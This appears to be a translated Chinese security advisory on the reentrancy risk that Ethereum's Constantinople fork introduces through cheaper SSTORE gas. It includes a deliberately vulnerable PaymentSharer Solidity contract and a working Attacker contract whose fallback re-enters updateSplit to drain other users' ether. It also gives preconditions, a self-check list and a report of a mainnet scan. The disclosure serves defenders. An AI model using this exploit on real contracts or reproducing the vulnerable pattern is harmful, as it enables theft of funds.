 # 以太坊硬分叉后的可重入漏洞攻击

以太坊君士坦丁堡升级将降低部分 SSTORE 指令的 gas 费用。然而，这次升级也有一个副作用，在 Solidity 语言编写的智能合约中调用 address.transfer()函数或 address.send()函数时存在可重入漏洞。在目前版本的以太坊网络中，这些函数被认为是可重入安全的，但分叉后它们不再是了。

# 这个代码的问题何在？

下图是君士坦丁堡硬分叉之前没有可重入漏洞的一个代码段，它会在分叉后导致可重入性。

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be:
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);
    b.transfer(depo * (100 - splits[id]) / 100);
  }
}
```

An example for newly vulnerable code.

这个代码会被一种意想不到的方式攻击：它模拟了一个安全的资金共享服务。双方可以共同接收资金，决定如何分成，如果他们达成一致 ­，则可以获得支付。攻击者将创建一个对，其中第一个地址是下图列出的攻击合约地址，第二个地址则是任何攻击者账户。攻击者将在这个对存入一些以太币。

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))
    }
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

Attacker Contract listed as first address.

当攻击者在自己的合约中调用 attack 函数时，在同一个交易中就会发生以下事件：

1. 攻击者利用 updateSplit 函数设置当前的分成，从而确保之后的升级将会降低费用。这是君士坦丁堡升级带来的效应。攻击者通过这种方式设置分成，他的第一个地址（即攻击合约地址）就能接收到所有的以太币。
2. 攻击合约调用 splitFunds 函数，该调用将进行检查\*等，并通过 transfer()函数把其中存储的所有以太币发送到攻击合约。
3. 通过回退函数，攻击者再次执行分成，这一次将所有以太币分配给他的第二个地址，即其自己的账户。
4. 通过不断执行 splitFunds 函数，在第一个地址中存储的所有以太币都被转移到了攻击者账户中。
   _简单来说，攻击者可以不断从 PaymentSharer 合约中盗取其他用户的以太币。_

# 为什么这种漏洞变得可利用了？

在君士坦丁堡硬分叉前，一个存储指令至少需要 5000 gas 手续费。这远远超过了在利用 transfer()函数或 send()函数调用合约时可用的 2300 gas 津贴。
在君士坦丁堡分叉后，会改变“脏（dirty）”存储器槽（storage slot）的存储指令只需 200 gas。如果在交易执行期间对一个存储器槽做出修改，那么这个存储器槽就会被标记为“dirty”。如上所示，这可以通过在攻击合约调用一些改变所需变量的公共函数来实现。然后，通过使被攻击合约调用攻击合约，例如使用 msg.sender.transfer（…）函数，攻击合约就可以利用 gas 津贴成功操纵这个被攻击合约的变量。
被攻击合约必须满足以下先决条件：

1. 首先必须存在函数*A，在调用 transfer/send 函数后将执行状态修改的指令。有时这种指令可能是不明显的，例如，第二次 transfer 的调用或与另一个智能合约的互动。*
2. 必须存在攻击者可调用的函数*B* ，能够实现（a）改变状态；（b）其状态改变与函数*A*的状态改变冲突。
3. 执行函数*B* 的手续费必须小于 1600 gas （2300 gas 津贴 — CALL 指令花费的 700 gas）。

# 我的智能合约是否易受攻击？

要测试一个智能合约是否易受攻击：
(a) 检查在 transfer 事件后是否存在其他指令。
(b) 检查这些指令是否修改了存储状态。最常见的修改是通过分配一些存储变量。如果你在调用另一个合约，比如代币的 transfer 函数，检查并列出所有被修改的变量。
© 检查在你的合约中是否有任何非管理员可访问的方式使用了这些变量。
(d) 检查这些方式本身是否修改了存储状态。
(e) 检查这种方式的手续费是否低于 2300 gas，记住，SSTORE 指令理论上只需要花费 200 gas。
如果上述所有情况皆符合，那么攻击者很可能可以对你的合约发起恶意攻击，使其陷入糟糕的状态。总的来说，这也再次提醒了我们“检查-生效-交互”（Checks-Effects-Interactions）模式的重要性。

# 目前存在易受攻击的智能合约吗？

利用 eveem.org 提供的数据，我们检查了主要以太坊区块链，并未发现易受攻击的智能合约。我们也在与 ethsecurity.org 工作组的成员合作，将此次检查扩展到尚未反编译的复杂智能合约，尤其是去中心化交易所。去中心化交易所经常向不可信账户调用以太币转移函数，之后存储状态被修改，这些交易所就可能会变得易受攻击。请记住，在许多情况下，重入攻击警告并不意味着这个漏洞可以被利用，而需要更仔细的分析。
